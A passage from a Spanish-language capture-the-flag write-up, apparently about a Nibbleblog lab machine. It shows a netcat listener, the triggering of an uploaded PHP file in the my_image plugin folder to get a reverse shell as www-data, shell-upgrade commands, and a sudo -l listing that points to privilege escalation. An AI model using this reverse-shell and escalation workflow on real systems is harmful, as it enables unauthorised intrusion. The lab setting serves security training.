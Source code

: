 Vemos que se subio corerctamente, ahora veremos donde se encuentra el contenido del `plugin` donde se aloja dicho archivo.

Si inspeccionamos el codigo para ver donde lo escribe, veremos que lo guarda aqui:

```
exploitURL = f"{nibbleURL}content/private/plugins/my_image/image.php"
```

Por lo que nos iremos a la siguiente `URL`, pero antes nos pondremos a la escucha.

```shell
nc -lvnp <PORT>
```

Y ahora nos iremos a la siguiente ruta:

```
URL = http://<IP>/nibbleblog/content/private/plugins/my_image/image.php
```

Y si volvemos a donde tenemos la escucha, veremos lo siguiente:

```
listening on [any] 7777 ...
connect to [192.168.60.128] from (UNKNOWN) [172.17.0.2] 34952
whoami
www-data
```

Veremos que tendremos una `shell` como el usuario `www-data`.

### Sanitización de shell (TTY)

```shell
script /dev/null -c bash
```

```shell
# <Ctrl> + <z>
stty raw -echo; fg
reset xterm
export TERM=xterm
export SHELL=/bin/bash

# Para ver las dimensiones de nuestra consola en el Host
stty size

# Para redimensionar la consola ajustando los parametros adecuados
stty rows <ROWS> columns <COLUMNS>
```

## Escalate user chocolate

Si hacemos `sudo -l` veremos lo siguiente:

```
Matching Defaults entries for www-data on 47ba4eca2fbc:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User www-data may run the following commands on 47ba4eca2fbc:
    (chocolate) NOPASSWD: /usr/bin/php
```
